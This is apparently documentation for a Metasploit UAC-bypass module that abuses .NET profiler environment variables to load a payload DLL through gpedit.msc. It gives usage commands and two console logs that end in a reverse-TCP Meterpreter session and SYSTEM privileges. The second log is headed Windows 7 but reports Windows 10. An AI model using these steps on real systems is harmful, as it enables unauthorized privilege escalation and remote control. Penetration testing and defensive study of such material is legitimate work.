 ## Introduction

Microsoft Windows allows for the automatic loading of a profiling COM object during
the launch of a CLR process based on certain environment variables ostensibly to
monitor execution.  In this case, we abuse the profiler by pointing to a payload DLL
that will be launched as the profiling thread.  This thread will run at the permission
level of the calling process, so an auto-elevating process will launch the DLL with
elevated permissions.  In this case, we use gpedit.msc as the auto-elevated CLR
process, but others would work, too.

## Usage

1. Create a session on the target system under the context of a local administrative user.
2. Begin interacting with the module: `use exploit/windows/local/bypassuac_dotnet_profiler`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenario

### Windows Windows 7 (6.1 Build 7601, Service Pack 1) x64

```
msf5 exploit(windows/local/bypassuac_dotnet_profiler) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] target_filepath = C:\Windows\System32\gpedit.msc
[*] Making Payload
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\vehxxpkdx.dll
[*] UUID = a47dbe47-41a6-42ed-95a0-e2cc4710a75a
[*] Writing  to HKCU\Software\Classes\CLSID\{a47dbe47-41a6-42ed-95a0-e2cc4710a75a}\InprocServer32
[*] Writing COR_PROFILER to HKCU\Environment
[*] Writing COR_ENABLE_PROFILING to HKCU\Environment
[*] Writing COR_PROFILER_PATH to HKCU\Environment
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\vehxxpkdx.dll
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\gpedit.msc
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\vehxxpkdx.dll!
[*] Please wait for session and cleanup....
[*] Sending stage (206403 bytes) to 192.168.132.187
[*] Meterpreter session 5 opened (192.168.135.168:4444 -> 192.168.132.187:49234) at 2019-11-15 12:14:41 -0600
[*] Removing Registry Changes
[*] Deleting HKCU\Software\Classes\CLSID\{a47dbe47-41a6-42ed-95a0-e2cc4710a75a}\InprocServer32 key
[*] Deleting COR_PROFILER from HKCU\Environment key
[*] Deleting COR_ENABLE_PROFILING from HKCU\Environment key
[*] Deleting COR_PROFILER_PATH from HKCU\Environment key
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : WIN7X64-SP1
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN7X64-SP1\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```

### Windows Windows 7 (6.1 Build 7601, Service Pack 1) x64
```
msf5 exploit(multi/handler) > use exploit/windows/local/bypassuac_dotnet_profiler 
msf5 exploit(windows/local/bypassuac_dotnet_profiler) > set session 6
session => 6
msf5 exploit(windows/local/bypassuac_dotnet_profiler) > show options

Module options (exploit/windows/local/bypassuac_dotnet_profiler):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION       6                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/bypassuac_dotnet_profiler) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] target_filepath = C:\Windows\System32\gpedit.msc
[*] Making Payload
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\LNpAorHj.dll
[*] UUID = d472ba96-3dfc-432c-8ad2-f44ada2a39ec
[*] Writing COR_PROFILER to HKCU\Environment
[*] Writing COR_ENABLE_PROFILING to HKCU\Environment
[*] Writing COR_PROFILER_PATH to HKCU\Environment
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\LNpAorHj.dll
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\gpedit.msc
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\LNpAorHj.dll!
[*] Please wait for session and cleanup....
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 7 opened (192.168.135.168:4444 -> 192.168.132.125:49683) at 2019-11-15 12:18:54 -0600
[*] Removing Registry Changes
[*] Deleting COR_PROFILER from HKCU\Environment key
[*] Deleting COR_ENABLE_PROFILING from HKCU\Environment key
[*] Deleting COR_PROFILER_PATH from HKCU\Environment key
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
